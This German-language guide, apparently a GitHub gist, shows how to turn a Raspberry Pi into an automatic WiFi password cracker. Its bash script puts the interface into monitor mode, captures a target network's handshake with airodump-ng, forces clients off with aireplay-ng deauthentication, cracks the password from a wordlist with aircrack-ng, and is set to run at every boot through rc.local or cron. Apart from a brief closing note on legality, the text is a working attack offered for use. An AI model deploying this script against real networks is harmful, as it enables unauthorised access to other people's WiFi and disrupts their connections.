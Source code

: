 https://gist.github.com/DanilAndreev/77036b5f7a7dc656c54aacb31140c22c
## Schritt 1: Vorbereitung

1. **Aircrack-ng installieren:**
    
    bash
    
    `sudo apt update sudo apt install aircrack-ng`
    
2. **Wireshark installieren:**
    
    bash
    
    `sudo apt update sudo apt install wireshark sudo usermod -a -G wireshark pi`
    
3. **Benutzer zur Wireshark-Gruppe hinzufügen:**  
    Nach der Installation von Wireshark müssen Sie sich ab- und wieder anmelden oder den Raspberry Pi neu starten.
    

## Schritt 2: Script erstellen

Erstellen Sie ein neues Script, das die Programme startet und das WLAN in den Monitor-Modus setzt. Öffnen Sie einen Texteditor und fügen Sie den folgenden Code ein:

bash

`#!/bin/bash # WLAN-Interface in Monitor-Modus setzen sudo airmon-ng start wlan0 # Airodump-ng starten, um den Authentifizierungs-Handshake zu erfassen sudo airodump-ng -c 1 -w capture --bssid <BSSID> wlan0mon & # Deauthentifizierung eines Clients, um den Handshake zu erzwingen sudo aireplay-ng -0 2 -a <BSSID> wlan0mon # Aircrack-ng starten, um das Passwort zu knacken sudo aircrack-ng -w /path/to/wordlist capture-01.cap # Wireshark starten sudo wireshark &`

Ersetzen Sie `<BSSID>` durch die BSSID des Zielnetzwerks und `/path/to/wordlist` durch den Pfad zu Ihrer Passwortliste.

## Schritt 3: Script automatisch starten

Um das Script beim Start des Raspberry Pi auszuführen, können Sie es in die Datei `/etc/rc.local` einfügen oder einen Cron-Job erstellen.

## Methode 1: rc.local

1. Öffnen Sie die Datei `/etc/rc.local` mit einem Editor:
    
    bash
    
    `sudo nano /etc/rc.local`
    
2. Fügen Sie den Pfad zu Ihrem Script ein, bevor `exit 0` steht:
    
    bash
    
    `sudo /path/to/your/script.sh &`
    
3. Speichern und schließen Sie die Datei.
    

## Methode 2: Crontab

1. Öffnen Sie den Crontab-Editor:
    
    bash
    
    `sudo crontab -e`
    
2. Fügen Sie die folgende Zeile am Ende hinzu:
    
    bash
    
    `@reboot sudo /path/to/your/script.sh &`
    
3. Speichern und schließen Sie die Datei.
    

## Schritt 4: Reboot

Starten Sie Ihren Raspberry Pi neu, um das Script automatisch auszuführen.

## Hinweis

- **Rechtliche Aspekte:** Stellen Sie sicher, dass Sie die rechtlichen Aspekte beachten und nur Netzwerke sniffen und knacken, die Ihnen gehören oder für die Sie die Erlaubnis haben.
    
- **Sicherheit:** Verwenden Sie starke Passwörter und sichere Netzwerke, um Angriffe zu verhindern.
- 